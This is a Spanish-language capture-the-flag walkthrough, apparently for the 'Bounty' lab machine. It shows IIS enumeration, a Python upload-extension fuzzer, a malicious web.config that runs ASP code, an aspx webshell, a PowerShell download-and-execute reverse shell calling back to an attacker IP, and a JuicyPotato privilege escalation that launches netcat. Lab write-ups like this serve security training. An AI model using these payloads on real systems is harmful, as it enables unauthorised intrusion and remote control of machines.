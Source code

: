 -------
- Tags: #juicypotato #impersonating #IIS #python-scripting #web-config 
-  --------------
## Técnicas utilizadas
- IIS Enumeration  
- Creating our own extension fuzzer in Python [Python Scripting] [EXTRA]  
- IIS Exploitation - Executing code via web.config file upload  
- Abusing SeImpersonatePrivilege - Juicy Potato [Privilege Escalation]
## Procedimiento
![[Pasted image 20230728105515.png]]

#### Reconocimiento
Un escaneo con **nmap** para descubrir los servicios que estan corriendo para esta maquina nos muestra los siguientes puertos:
```ruby
# nmap -sCV -p80 10.10.10.93 -oN Ports
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-28 14:54 UTC
Nmap scan report for 10.10.10.93
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.16 seconds
```

Con **whatweb** podemos listar algunas de las tecnologías que estan por detrás del sitio web:
```ruby
# whatweb 10.10.10.93
http://10.10.10.93 [200 OK] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/7.5], IP[10.10.10.93], Microsoft-IIS[7.5], Title[Bounty], X-Powered-By[ASP.NET]
```

------------
#### IIS Enumeration  
Si hacemos un escaneo con **Gobuster** o **Wfuzz** para descubrir archivos **.aspx/.asp** ( formato tipico de un IIS ) podemos encontrar uno:
![[Pasted image 20230728150042.png]]
Visitandolo, nos percatamos que es basicame **uploader**.

-----------
#### Creating our own extension fuzzer in Python [Python Scripting] EXTRA
Para no estar intentando a mano con cada extesión para ver cual es valida, podemos hacer un script en **python** para automatizar esta tarea:
```python
#!/usr/bin/python3

from pwn import *
import signal
import pdb
import re

# ctrl + C
def def_handler(sig,frame):
	print("\n[!] Saliendo...!")
	sys.exit(1)
signal.signal(signal.SIGINT, def_handler)

# Variables globales
transfer_url = "http://10.10.10.10/transfer.aspx"

# Funciones
def uploadFile(extension):

	s = requests.session()
	r = s.get(transfer_url)

	viewState = re.findall(r'id="__VIEWSTATE" value="(.*?)"', r.text)[0]
	eventValidation = re.findall(r'id="__EVENTVALIDATION" value="(.*?)"', r.text)[0]

	post_data = {
		'__VIEWSTATE' : viewState,
		'__EVENTVALIDATION': eventValidation,
		'btnUpload' : 'Upload'
	}

	fileUploaded = {'FileUpload1' : ('Prueba%s' % extension, 'Esto es una prueba')}

	r = s.post(transfer_url, data=post_data, files=fileUploaded)

	if "Invalid File. Please try Again" not in r.text:
		log.info("La extension %s es valida" % extension)
	

if __name__ == "__main__":

	f = open("/usr/share/SecLists/Discovery/Web-Content/raft-medium-extensions-lowercase,txt", 'rb')

	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando proceso de fuerza bruta")
	
	time.sleep(2)

	
	for extension in f.readlines():
		extension = extension.decode().strip()
		p1.status("Probando con la extension: %s" % extension)
		uploadFile(extension)
 
```

---------
#### IIS Exploitation - Executing code via web.config file upload  
Vemos que hay un tipo de extension valido que es bastante turbio:
![[Pasted image 20230728152202.png]]

Si buscamos en **google** por cosas que podemos aprovechar de esto encontramos un [articulo](https://www.ivoidwarranties.tech/posts/pentesting-tuts/iis/web-config/) que lo explica bien. Lo que tenemos que hacer es crear un **web.config** y dentro de esto colocar un contenido tal como esto:
```aspx
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```

Entonces, cuando visitemos este archivo, nos tendria que poner el resultado de **1+2**, o sea, **3**. Pero, antes de todo, tenemos que fuzzear por directorios para encontrar donde se ha almacenado este archivo con **wfuzz**:
```json
# wfuzz -c --hc=404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt "http://10.10.10.10/FUZZ"
```

Y nos encuentra este directorio:
![[Pasted image 20230728151417.png]]

Asi que problablemente el archivo este en este directorio:
```
Image Web.Config result 3
```

Nos queda ahora solo subir un **WebShell** en [aspx](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx), visitar la pagina y podremos ejecutar comandos en la maquina victima:
```
Image Web.Config Aspx WebShell
```

Con esto disponible, nos entablaremos una Reverse Shell con el **InvokePowerShell.ps1** de [nishang](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1), corremos el comando:
```
powershell IEX(New-Object Net.WebClient).downloadString("http://10.10.10.10/InvokePowerShell.ps1")`
```

Antes de ejecutarlo, nos ponemos en escucha con **netcat**:
```
nc -lvnp 443
listening on [any] 443 ...
```

Mandamos el comando y ganaremos acceso a la maquina.

-----------
#### Abusing SeImpersonatePrivilege - Juicy Potato [Privilege Escalation]
Si hacemos un `whoami /priv` podemos ver que tenemos asignado **SeImpersonatePrivilage** asi que podemos tirar de [JuicyPotato.exe](https://github.com/ohpe/juicy-potato). Para variar, también podemos hacerlo como lo vimos en la maquina [[Most Important - HackBack|HackBack]].

Con **JuicyPotato** seria de la siguiente manera:
```
.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\nc.exe -e cmd 10.10.10.10 443'"
```

Pero de antes tendriamos que subir el **nc.exe** en la ruta **temp**.